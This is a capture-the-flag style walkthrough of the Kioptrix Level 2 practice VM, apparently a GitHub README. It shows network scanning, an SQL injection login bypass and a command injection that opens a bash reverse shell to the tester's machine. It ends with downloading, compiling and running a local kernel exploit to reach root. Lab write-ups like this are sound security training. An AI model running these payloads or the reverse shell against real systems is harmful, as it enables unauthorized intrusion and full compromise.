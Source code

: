 # Kioptrix-level-2-Walk-through


### download the machine from 

then launch using VMware 

no credintial are provided 


Notes :
----

make sure your system is upgraded           
sudo apt update && sudo apt upgrade                 
sudo apt install exploitdb 

make sure your main system and the target on the same network

and make sure that you downloaded the fixed version not the bugged one 

scan the target using nmap 
--
Nmap -sn 192.168.1.*

got the kioptrix vm ip at 

Nmap -sC -sV 192.168.1.104

found some open ports ( 22-80-111,443)
  
now lets walkthrough each port and see what we can do (separately and combined):
----
couldn't verfy that any service is vulnarble so i've move to surf the web server 

well there is a login page , viewing the source code gives me hint to login as admin 

trying basics credintial like admin:admin and admin:password  not working 

but a login page is a sign of sqli

so i've tried admin:'

but no errors are displayed

try admin:'or'1'='1 as the simplest method of sqli

and iam in and there is admin panel for pining local host 

agood sign of command injection 

so i've tryed ;ls and the command worked 

now we get our shell by listening with our machin and inject this command to the admin pannel 

; bash -i >& /dev/tcp/192.168.0.19/443 0>&1

now we've got user shell 

attemping a priv escilation 

1- try sudo -l : failed

2- trying to steel ssh key : failed

3-trying nmap --interactive 

!sh 

failed:D

4- searching for a custom exploit for the exact version of system

uname -a >> CentOs 

searchsploit Centos escilation 

Linux Kernel 2.4.x/2.6.x (CentOS 4.8/5.3 / RHEL 4.8/5.3 / SuSE 10 SP2/11 / Ubuntu 8.10) (PP | linux/local/9545.c

choose this one 

searchsploit -m linux/local/9545.c 

now and since the target has gcc installed we will move the exploit and compile it there

in the same directory as the exploit is run this command 

python -m SimpleHTTPServer 80

now on the shell we obtained earlier from the target , download the exploit 

wget http://192.168.1.2/9545.c

compile 

gcc -o escilation 9545.c

./escilation

id >> root 

Thanks for taking some time reading this i hope it was useful please don't hesitate correcting me any mistake for giving me advise
 ----


